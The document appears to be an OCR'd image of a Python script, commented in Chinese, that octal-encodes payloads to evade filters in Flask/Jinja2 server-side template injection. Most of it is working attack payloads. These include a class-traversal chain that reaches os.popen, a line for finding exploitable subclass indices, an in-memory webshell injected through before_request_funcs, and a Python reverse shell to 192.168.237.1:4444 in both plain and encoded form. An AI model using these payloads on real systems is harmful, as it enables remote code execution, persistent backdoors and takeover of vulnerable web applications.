 ```python
    只将字母和下划线转换为八进制，数字和符号保持不变。
    如果字符是反斜杠（\\），则保留原样。
    """
    if char == '\\':  # 如果字符是反斜杠，直接返回原样
        return char
    elif char.isalpha() or char == '_':  # 只对字母和下划线转换为八进制
        return '\\' + format(ord(char), '03o')
    else:  # 数字和符号保持不变
        return char

for char in payload:
    payload8 += convert_char(char)

print(f"原始payload：  {payload}")
print(f"构造的payload8：   {payload8}")


# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\156\063 -\143 '\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("192.168.237.1",4444));[\157\163.\144\165\160\062(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(\060,\061,\062)];\160\164\171.\163\160\141\167\156("\163\150")'')['\162\145\141\144']()
# 命令执行版本
# 1['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\154\163')['\162\145\141\144']()
# 测试可利用索引
# ()['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]

# 八进制打入内存马版本
# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[137]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\170\145\143']("\163\171\163.\155\157\144\165\154\145\163['\137\137\155\141\151\156\137\137'].\137\137\144\151\143\164\137\137['\141\160\160'].\142\145\146\157\162\145\137\162\145\161\165\145\163\164\137\146\165\156\143\163.\163\145\164\144\145\146\141\165\154\164(\116\157\156\145, []).\141\160\160\145\156\144(\154\141\155\142\144\141: \137\137\151\155\160\157\162\164\137\137('\157\163').\160\157\160\145\156(\137\137\151\155\160\157\162\164\137\137('\146\154\141\163\153').\162\145\161\165\145\163\164.\141\162\147\163.\147\145\164('\141')).\162\145\141\144())")

# 反弹shell
# python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.237.1",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
# ''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\137\137']['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[132]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\160\157\160\145\156']('\160\171\164\150\157\156 -\143 \'\151\155\160\157\162\164 \157\163,\160\164\171,\163\157\143\153\145\164;\163=\163\157\143\153\145\164.\163\157\143\153\145\164();\163.\143\157\156\156\145\143\164(("\061\071\062.\061\066\070.\062\063\067.\061",\064\064\064\064));[\157\163.\144\165\160\062(\163.\146\151\154\145\156\157(),\146)\146\157\162 \146 \151\156(\060,\061,\062)];\160\164\171.\163\160\141\167\156("\163\150")\'')['\162\145\141\144']()
```
